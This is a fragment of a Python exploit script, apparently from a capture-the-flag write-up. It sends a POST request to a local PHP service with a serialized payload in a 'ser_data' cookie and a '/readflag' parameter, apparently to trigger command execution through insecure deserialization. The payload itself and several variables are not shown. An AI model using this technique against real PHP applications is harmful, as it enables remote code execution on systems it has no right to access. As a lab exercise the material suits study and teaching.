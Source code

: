 ```python


cookies = {"PHPSESSION": "1vlg7sj1r4h2sffk5b7paqgp32", "ser_data": poc}
headers = {"Cache-Control": "max-age=0", "sec-ch-ua": "\"Chromium\";v=\"103\", \".Not/A)Brand\";v=\"99\"", "sec-ch-ua-mobile": "?0", "sec-ch-ua-platform": "\"macOS\"", "Upgrade-Insecure-Requests": "1", "Origin": "http://localhost:2333", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "http://localhost:2333/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
data = {"num1": "123", "num2": "123", "submit1": "\xe8\xae\xa1\xe7\xae\x97"}
res = session.post(url,params={"0":"/readflag"}, headers=headers, cookies=cookies, data=data)

print(res.text)

```

